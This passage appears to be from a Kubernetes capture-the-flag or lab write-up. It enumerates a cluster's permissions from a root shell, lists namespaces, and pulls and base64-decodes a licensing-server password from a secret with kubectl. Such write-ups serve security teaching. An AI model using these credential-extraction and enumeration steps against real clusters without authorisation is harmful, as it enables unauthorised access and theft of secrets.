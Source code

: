 Immediately we can see that we have access to `secrets` and `namespaces`. Let's see if there are any secrets in our current namespace:

```bash
root@admin-console:~# kubectl get secrets
NAME            TYPE     DATA   AGE
rkls-password   Opaque   1      5m17s
```

It looks like the password for the reform-kube licensing server is stored in a secret. We can pull the secret with the following command:

```bash
root@admin-console:~# kubectl get secrets -o jsonpath='{.data.password}' | base64 -d
access-2-reform-kube-server
```

Great, let's make a note of this password and continue to enumerate the resources. We have permissions to view namespaces.

```bash
root@admin-console:~# kubectl get namespaces
NAME              STATUS   AGE
administration    Active   65m
default           Active   67m
kube-node-lease   Active   67m
kube-public       Active   67m
kube-system       Active   67m
licensing         Active   65m
production        Active   65m
```

It looks like we have three non-standard namespaces, `administration`, `licensing` and `production`. Let's run `auth can-i` on these namespaces to see what permissions we have:

```bash
root@admin-console:~# kubectl auth can-i --list -n administration
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
namespaces                                      []                                    []               [get list]
secrets                                         []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
```
